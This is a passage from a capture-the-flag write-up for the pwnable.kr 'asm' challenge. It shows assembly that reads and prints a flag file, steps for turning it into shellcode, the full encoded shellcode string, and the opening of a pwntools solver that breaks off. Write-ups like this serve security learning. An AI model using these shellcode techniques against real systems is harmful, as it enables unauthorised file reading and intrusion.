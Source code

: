 And write the flags contents out to stdout.
```asm
;write:
	xor		eax, eax
	add 		al, 0x01	;sys_read
	xor		rdi, rdi
	add		rdi, 1		;int fd
	pop		rsi		;buff
	;mov		rdx, 128	;size
	syscall
```
The string size is still in `rdx`.

Then exit the program.
```asm
exit:
	xor		rax, rax
	xor		rdi, rdi
	add		al, 60
	syscall
```
###converting `payload.asm` into shellcode
my script to build `payload.asm`
```
nasm -felf64 ${1}.asm
gcc ${1}.o -o ${1}
```
compile the shellcode `$ sh build.sh payload`

running `objdump -d` we can see the opcodes and addresses of those opcodes in the elf.
`0000000000600870 <main>:` is the start of the code we want for our shellcode.
`00000000006009ad <nullchar>:` is the end of the code we want.
convert all the opcodes into shellcode and we are done.

I wrote a small python script just for this purpose.
```asm
objdump -d payload | mkshell -x 600870 6009ad
\xeb\x40\x48\x31\xc0\x5b\x53\x66\x81\xc3\xe7\x00\x67\x89\x03\x04\x02\x5f\x57\x48\x31\xf6\x48\x31\xd2\x0f\x05\x48\x89\xc7\x48\x31\xc0\x5e\x56\x66\x81\xc2\x90\x01\x0f\x05\x31\xc0\x04\x01\x48\x31\xff\x48\x83\xc7\x01\x5e\x0f\x05\x48\x31\xc0\x48\x31\xff\x04\x3c\x0f\x05\xe8\xbb\xff\xff\xff\x70\x77\x6e\x61\x62\x6c\x65\x2e\x6b\x72\x2f\x61\x73\x6d\x2f\x74\x68\x69\x73\x5f\x69\x73\x5f\x70\x77\x6e\x61\x62\x6c\x65\x2e\x6b\x72\x5f\x66\x6c\x61\x67\x5f\x66\x69\x6c\x65\x5f\x70\x6c\x65\x61\x73\x65\x5f\x72\x65\x61\x64\x5f\x74\x68\x69\x73\x5f\x66\x69\x6c\x65\x2e\x73\x6f\x72\x72\x79\x5f\x74\x68\x65\x5f\x66\x69\x6c\x65\x5f\x6e\x61\x6d\x65\x5f\x69\x73\x5f\x76\x65\x72\x79\x5f\x6c\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x6e\x67\x61\x61
```
###Sending the shellcode
All thats left now is to send the shellcode to `asm` at `asm@pwnable.kr`
```asm
"""
pwnable.kr-asm solution
author: Weston Silbaugh
"""
from pwn import *

def main():
	#hand crafted shellcode
	#its not pretty but she works
```